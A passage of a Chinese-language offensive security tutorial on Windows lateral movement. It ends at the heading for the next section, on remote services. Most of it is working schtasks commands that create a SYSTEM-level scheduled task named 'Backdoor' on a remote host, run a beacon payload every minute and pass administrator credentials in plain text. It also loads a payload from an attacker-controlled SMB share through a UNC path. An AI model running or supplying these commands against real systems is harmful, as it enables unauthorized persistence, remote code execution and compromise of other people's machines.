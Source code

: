 # 创建计划任务

## 常规利用流程

攻击者可以通过已有的`IPC`连接，在远程主机上创建计划任务，让目标主机在规定的时间节点或周期内执行特定操作，具体操作流程如下：

- 利用已建立的共享连接向远程主机上传攻击载荷；
- 利用已建立的`IPC`连接或指定用户凭据的方式在远程主机上创建计划任务，执行命令。

```powershell
# /S, 指定要连接到的系统; /TN, 指定要创建的计划任务的名称; /SC, 指定计划任务执行频率; /MO, 制定计划任务执行周期; /TR, 制定计划任务运行的程序路径; /RU, 制定计划任务运行的任务权限; /F, 如果指定的任务已经存在, 则强制创建
schtasks /Create /S 192.168.93.30 /TN Backdoor /SC minute /MO 1 /TR C:\beacon.exe /RU System /F

# 如果没有建立IPC连接, 也可以手动指定远程主机的用户凭据
schtasks /Create /S 192.168.93.30 /TN Backdoor /SC minute /MO 1 /TR C:\beacon.exe /RU System /F /U Administrator /P H3rmesk1t@123

# 立即启动计划任务
schtasks /RUN /S 192.168.93.30 /I /TN Backdoor

# 删除计划任务
schtasks /Delete /S 192.168.93.30 /TN Backdoor /F

# 利用计划任务在远程主机上执行系统命令
schtasks /Create /S 192.168.93.30 /TN Backdoor /SC minute /MO 1 /TR "C:\Windows\System32\cmd.exe /c 'whoami > C:\result.txt'" /RU System /F
type \\192.168.93.30\C$\result.txt
```

## UNC路径加载执行

`Windows`系统中使用`UNC`路径来访问网络共享资源，格式如下：

```powershell
\\servername\sharename\directory\filename
```

实现方式：

- 搭建SMB匿名共享服务，并将生成的攻击载荷放入共享目录（计划任务、创建服务、`PsExec`、`WMI`、`DCOM`等远程执行方法均可）
- 在远程主机创建计划任务，使用`UNC`路径加载位于`SMB`匿名共享中的攻击载荷并执行

```powershell
schtasks /Create /S 192.168.93.30 /TN Backdoor /SC minute /MO 1 /TR \\192.168.93.10\evilsmb\beacon.exe /RU System /F /U Administrator /P H3rmesk1t@123
```

# 利用系统服务

## 创建远程服务

